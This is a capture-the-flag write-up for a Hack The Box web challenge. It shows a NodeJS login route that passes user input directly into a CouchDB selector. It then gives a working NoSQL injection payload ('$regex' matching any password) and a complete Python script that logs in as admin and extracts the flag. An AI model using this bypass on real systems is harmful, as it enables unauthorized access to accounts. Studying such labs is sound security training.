

# [Web] Lazy Ballot

This webapp is written in NodeJS and interacts with a CouchDB NoSQL database. It allows an authenticated user to see voting results.

There is 1 vulnerability to exploit: the login API endpoint is vulnerable to a NoSQL injection. It accepts user input as is, forwarded to CouchDB.

```js
router.post("/api/login", async (req, res) => {
    const { username, password } = req.body;

    if (!username || !password) {
        return res.status(403).send(response("Missing parameters"));
    }

    if (!await db.loginUser(username, password)) {
        return res.status(403).send(response("Invalid username or password"));
    }

    req.session.authenticated = true;
    return res.send(response("User authenticated successfully"));
});

[...]

    async loginUser(username, password) {
        const options = {
            selector: {
                username: username,
                password: password,
            },
        };

        const resp = await this.userdb.find(options);
        if (resp.docs.length) return true;

        return false;
    }
```

The `username` and `password` can be injected. Since we are given the knowledge of the `admin` user, we can leverage the password field to bypass the password validation. Once authenticated the flag is given in the `/votes/list` endpoint.

Let's use a regexp straight out of the [CouchDB documentation](https://docs.couchdb.org/en/stable/api/database/find.html#creating-selector-expressions). It will accept any password: `^.*$`

Final script:
```python
import requests
import re

endpoint = "http://94.237.59.206:40521/api"
login_path = "/login"
votes_path = "/votes/list"

# https://docs.couchdb.org/en/stable/api/database/find.html#creating-selector-expressions
data = {
    "username": "admin",
    "password": {"$regex": "^.*$"}
}

s = requests.Session()
# NoSQLi login
response = s.post(endpoint + login_path, json=data)
# Get votes
response = s.get(endpoint + votes_path)
found = re.findall("HTB\{\w+\}", response.text)
print(found[0])
```


